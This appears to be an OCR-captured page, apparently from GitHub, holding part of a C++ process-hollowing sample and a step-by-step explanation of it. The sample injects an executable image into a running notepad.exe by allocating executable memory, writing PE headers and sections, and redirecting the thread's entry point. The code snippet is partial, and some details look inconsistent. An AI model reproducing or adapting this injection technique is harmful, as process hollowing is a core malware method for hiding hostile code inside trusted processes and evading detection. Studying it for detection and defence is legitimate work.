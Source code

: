 ```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;

if (!GetThreadContext(pi.hThread, &ctx))
{
return false;
}

ctx.Eax = (DWORD)pi.lpBaseOfImage + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew + ((IMAGE_NT_HEADERS*)(((BYTE*)pi.lpBaseOfImage) + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew))->OptionalHeader.AddressOfEntryPoint;

if (!SetThreadContext(pi.hThread, &ctx))
{
return false;
}

ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
CloseHandle(pi.hProcess);

return true;
}

int main()
{
char* szSourceProcessName = “C:\\\\Windows\\\\System32\\\\calc.exe”;
char* szTargetProcessName = “notepad.exe”;

if (HollowProcess(szSourceProcessName, szTargetProcessName))
{
cout << “Process hollowing successful” << endl;
}
else
{
cout << “Process hollowing failed” << endl;
}

return 0;
}
```

The sample implements two main phases:

**Phase A — (Enumeration & injection into an existing target process)**

- Create a snapshot of running processes: `CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)`.
- Iterate processes with `Process32First` / `Process32Next` to find a process whose filename matches `szTargetProcessName`.
- Open the target process with `OpenProcess(PROCESS_ALL_ACCESS, …)`.
- Read the target process’s PE headers (IMAGE_DOS_HEADER, IMAGE_NT_HEADERS) via `ReadProcessMemory()` using the process base address (pe.modBaseAddr).
- Call `VirtualAllocEx()` in the target to allocate `SizeOfImage` bytes with `PAGE_EXECUTE_READWRITE`.
- Use `WriteProcessMemory()` to:
    - Write the PE headers into the newly allocated region.
    - For each section (read via `IMAGE_SECTION_HEADER`), write the section raw data into the corresponding `VirtualAddress` offset within the allocated region.
- Compute/adjust the entry point offsets: calculate offsets so execution jumps to the malicious image entrypoint once executed.
- Write any required jump/patch into the target process memory (the sample writes an offset) and close the process handle.
